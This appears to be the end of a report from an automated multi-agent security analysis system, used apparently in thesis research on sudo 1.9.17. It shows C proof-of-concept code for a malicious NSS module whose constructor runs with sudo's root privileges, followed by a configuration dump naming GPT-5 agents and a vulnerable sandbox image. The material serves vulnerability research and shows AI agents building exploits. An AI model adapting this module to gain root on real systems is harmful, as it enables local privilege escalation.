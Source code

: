 __attribute__((constructor))
static void my_ctor(void) {
    // Executed while sudo has pivoted/chrooted into attacker directory
    write_file("/tmp/nss_poc_constructor", "constructor ran\n");
}

__attribute__((destructor))
static void my_dtor(void) {
    // Executed after sudo unpivots, before process exit
    write_file("/tmp/nss_poc_destructor", "destructor ran as root?\n");
}

// Minimal required NSS entry points returning UNAVAIL

enum nss_status _nss_myhack_getpwnam_r(const char *name, struct passwd *pwd,
    char *buffer, size_t buflen, int *errnop) {
    (void)name; (void)pwd; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}

enum nss_status _nss_myhack_getpwuid_r(uid_t uid, struct passwd *pwd,
    char *buffer, size_t buflen, int *errnop) {
    (void)uid; (void)pwd; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}

enum nss_status _nss_myhack_getgrnam_r(const char *name, struct group *grp,
    char *buffer, size_t buflen, int *errnop) {
    (void)name; (void)grp; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}

enum nss_status _nss_myhack_getgrgid_r(gid_t gid, struct group *grp,
    char *buffer, size_t buflen, int *errnop) {
    (void)gid; (void)grp; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}




---

rich_console=<console width=99 ColorSystem.TRUECOLOR> openai_api_key='sk-svcacct-...' llm_api_key='sk-...' llm_base_url='https://litellm.faigle.dev' max_reprompts=5 model='openai/gpt-5' model_temperature=1.0 reasoning_model='openai/gpt-5' max_turns=75 session_db_path='./sessions.sqlite' log_level='INFO' trace_name='multi-agent sudo' sandbox_image='vuln-sudo:latest' setup_archive='/home/julian/Desktop/Bachelorarbeit/testdata/screen/upload.tgz' codebase_path='/home/julian/Desktop/Bachelorarbeit/testdata/sudo/codebase' vulnerable_folder='sudo-1.9.17' patched_folder='sudo-1.9.17p1' chroma_path='/home/julian/Desktop/Bachelorarbeit/ivexes/chroma/' embedding_model='intfloat/multilingual-e5-large-instruct' embedding_provider='local'

---

---
*Report generated by IVEXES Multi-Agent Security Analysis System*
